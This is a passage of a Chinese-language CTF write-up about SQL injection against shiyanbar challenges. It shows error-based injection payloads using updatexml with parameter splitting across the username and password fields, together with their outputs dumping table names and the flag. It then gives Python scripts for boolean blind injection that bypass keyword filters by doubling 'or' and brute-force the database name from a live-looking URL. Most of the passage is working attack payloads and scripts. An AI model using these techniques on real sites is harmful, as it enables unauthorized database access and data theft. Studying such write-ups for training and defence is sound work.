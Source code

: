 ```
username='and updatexml/*&password=*/(1,concat(0x7e,(select database()),0x7e),1) or '1
# XPATH syntax error: '~error_based_hpf~'

username='and updatexml/*&password=*/(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where !(table_schema<>'error_based_hpf')),0x7e),1) or '1
# XPATH syntax error: '~ffll44jj,users~'

username='and updatexml/*&password=*/(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where !(table_name<>'ffll44jj')),0x7e),1) or '1
# XPATH syntax error: '~value~'

username='and updatexml/*&password=*/(1,concat(0x7e,(select value from ffll44jj),0x7e),1) or '1
# XPATH syntax error: '~flag{err0r_b4sed_sqli_+_hpf}~'
```

另外，本题也可以用 `exp` 和 `extractvalue` 函数。

## 认真一点！

过滤了 `and`，`union`，空格，逗号等等，`or` 需要双写绕过。之后进行布尔盲注。
爆数据库名长度：

```python
import requests

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'

for i in range(1, 30):
  data = {'id':"0'oorr(length(database())=%s)oorr'0" % i}
  print(data)
  r = requests.post(url, data=data)
  if success in r.text:
    print('Finished, len = %s' % i)
    break
```

得到数据库名长度为 18。爆数据库名：

```python
import requests
import string

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'
chrset = string.digits + string.ascii_lowercase + '_!~'
db = ''

for i in range(1, 19):
  for j in chrset:
    data = {'id':"0'oorr(mid(database()from(%s)foorr(1))='%s')oorr'0" % (i,j)}
    print(data)
    r = requests.post(url, data=data)
    if success in r.text:
      db += j
      print(db)
      break
```
